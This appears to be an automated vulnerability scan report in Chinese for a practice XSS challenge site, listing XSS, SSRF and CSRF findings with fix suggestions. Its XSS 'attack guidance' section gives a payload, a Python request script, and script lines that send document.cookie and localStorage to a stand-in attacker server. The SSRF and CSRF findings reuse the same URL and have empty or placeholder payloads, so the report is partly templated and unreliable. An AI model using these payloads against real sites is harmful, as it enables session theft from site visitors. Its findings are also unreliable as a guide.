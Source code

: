 ### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: medium
- 验证载荷: javascript:alert(1)
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   javascript:alert(1)
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': 'javascript:alert(1)'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### SSRF 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: high
- 验证载荷: http://localhost/admin
- 修复建议: 建立URL白名单，禁止访问内网地址，禁用不必要的协议支持

#### 攻击指导

### CSRF 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: level3.php
- 严重程度: high
- 验证载荷: 跨站请求伪造
- 修复建议: 实施CSRF令牌，验证Referer头，使用SameSite Cookie属性

#### 攻击指导
